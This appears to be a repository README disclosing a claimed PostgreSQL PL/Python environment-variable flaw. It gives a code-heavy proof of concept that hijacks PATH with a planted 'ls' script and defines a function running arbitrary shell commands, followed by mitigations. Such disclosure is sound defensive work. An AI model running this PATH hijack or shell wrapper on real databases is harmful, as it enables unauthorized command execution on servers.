 # PostgreSQL Environment Variable Manipulation Vulnerability

## Description
This repository documents a vulnerability identified in PostgreSQL versions 16.3 and 17.1 that allows for unauthorized manipulation of environment variables using `PL/Python` functions. This issue can lead to unauthorized command execution, privilege escalation, and other potential security impacts.

## Affected Products/Versions
- **Product**: PostgreSQL
- **Versions Affected**: 16.3, 17.1

## Proof-of-Concept (PoC)
### Steps to Reproduce
1. Connect to the PostgreSQL database as a user with permissions to create functions.
   ```bash
   psql -U [username] -d [database_name]
2. Create a PL/Python function to modify the PATH environment variable:
   ```bash
   CREATE FUNCTION test_env_python() RETURNS void AS $$
   import os
   os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
   $$ LANGUAGE plpython3u;
3. Verify the change by creating a custom script in /tmp/test_bin and executing it through PostgreSQL.
   Create the script:
   ```bash
   mkdir /tmp/test_bin
   echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
   chmod +x /tmp/test_bin/ls
4. Execute the script through a PostgreSQL function:
   ```bash
   CREATE FUNCTION run_shell_command(cmd TEXT) RETURNS void AS $$
   import subprocess
   subprocess.run(cmd, shell=True)
   $$ LANGUAGE plpython3u;

   SELECT run_shell_command('ls');

## Expected Outcome
The custom ls script in /tmp/test_bin is executed, demonstrating that environment variable manipulation allows for custom command execution.

### Impact

### This vulnerability enables:

Unauthorized Code Execution: An attacker with permissions to create functions may modify the environment and execute arbitrary commands.
Privilege Escalation: Depending on the privileges of the PostgreSQL user, an attacker may gain higher-level access or control over the underlying server.

## Suggested Mitigations

-Restrict Permissions: Limit the creation of PL/Python and PL/Perl functions to trusted users only.
-Environment Variable Sanitization: Ensure that environment variables are properly sanitized and modifications are restricted.
-Upgrade PostgreSQL: If a fix is released by the PostgreSQL Global Development Group, update to the latest version.
-Audit Database Functions: Regularly audit user-created functions to detect and prevent potential exploitation.

Discovered by Fabian Mora, November 2024.
   
